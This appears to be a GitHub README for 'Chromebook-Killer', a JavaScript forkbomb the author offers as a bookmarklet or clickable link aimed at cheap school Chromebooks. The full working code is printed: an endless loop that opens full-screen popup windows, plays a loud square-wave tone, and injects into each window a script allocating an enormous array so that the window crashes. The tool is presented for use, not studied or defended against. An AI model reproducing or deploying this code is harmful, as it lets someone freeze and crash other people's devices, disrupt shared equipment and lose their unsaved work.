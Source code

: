 # 🔥 Chromebook-Killer
*"I was bored in school. Nothing new there."*

The code below is a a modified forkbomb that works in HTML and JavaScript. Keep in mind that this is targeted towards more cheap, low end Chromebooks, but I havent tested it on more powerful devices.

#### 🚀 Features
* Lags the Chromebook by spamming new browser windows.
* Plays a loud beeping noise until chromebook crashes (scary ;-;).
* On each new window it creates, it adds an array that will crash that new window.
* Can be used as a bookmarklet or clickable link.

#### 💾 Code
```js
while(true) {
  var a=Math.floor(10000*Math.random()+1),
  b=window.open('_blank','Lag'+a,`height=${screen.height},width=${screen.width}`);
  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);
  b.document.body.innerHTML='<script>[...Array(2**32-1)]</script>';
}
```

